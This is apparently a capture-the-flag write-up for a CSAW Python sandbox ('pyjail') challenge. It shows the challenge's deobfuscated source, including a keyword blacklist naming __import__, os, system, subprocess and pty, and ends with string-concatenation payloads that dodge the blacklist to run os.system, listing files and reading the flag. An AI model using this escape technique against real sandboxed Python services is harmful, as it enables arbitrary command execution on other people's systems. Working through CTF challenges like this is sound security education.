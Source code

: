 `Setting up a new coding environment for my data science students. Some of them are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you help test this before I use it for my class? Two sandboxes should be better than one...`

nc pwn.chal.csaw.io 5011

[sandbox.py](./original.py)

Looking at the file it seems we have a very simple REPL, with some code prepended to every line we write. There is also a blacklist of words, which we do not have access to.

First I started by simply trying to run the file, which obviously didn't work, since I don't have "blacklist", so I just replaced `blacklist.BLACKLIST` with `[]`
Now it did run, and we have a similar shell to the remote one, but without a blacklist. Lets fix that.

```$ echo "print(blacklist.BLACKLIST)" |nc pwn.chal.csaw.io 5011
['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```
Huh, it just worked.

```py
blacklist = ['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```
Replace the original `blacklist.BLACKLIST` with `blacklist` and we have an equal shell to theirs.

Now, I wonder if degarbling the `final_cmd` will help?

`uOaoBPLLRN -> sandbox_fd`

`int(((54 * 8) / 16) * (1/3) - 8) -> 1`
`uDwjTIgNRU -> one`

`ORppRjAVZL -> first_line_words_array`

`AAnBLJqtRv -> second_word`

`bAfGdqzzpg -> last_word`

The second word on this file is "base64" and the last word on the first line is "b64decode"
This next line grabs the b64decode sub module and puts its reference in "HrjYMvtxwA" I won't rename this because it might be useful for blacklist evasion.

`X19pbXBvcnRfXw==` decodes to `__import__` and `bnVtcHk=` decodes to... `numpy`?? Numpy pyjail escape?

Anyway, not renaming `RMbPOQHCzt` either, numpy might be useful.

Here is the final file:
```py
#!/usr/bin/env python3
from base64 import b64decode
# import blacklist  # you don't get to see this :p
blacklist = ['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']

"""
Don't worry, if you break out of this one, we have another one underneath so that you won't
wreak any havoc!
"""

def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist]):
                raise Exception("not allowed!!")

            final_cmd = """
sandbox_fd = open("sandbox.py", "r")
one = 1
first_line_words_array = sandbox_fd.readlines()[one].strip().split(" ")
second_word = first_line_words_array[one]
last_word = first_line_words_array[-one]
sandbox_fd.close()
HrjYMvtxwA = getattr(__import__(second_word), last_word)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```

Try the classic pyjail escape, but try to accomodate for the blacklisted strings.
`print(getattr(getattr(globals()['__buil'+'tins__'], '__im'+'port__')('o'+'s'), 'sy'+'stem')('ls .'))`
Uh... It worked.

`print(getattr(getattr(globals()['__buil'+'tins__'], '__im'+'port__')('o'+'s'), 'sy'+'stem')('cat flag.txt'))`
Done!
Seems like the reversing wasn't needed at all.
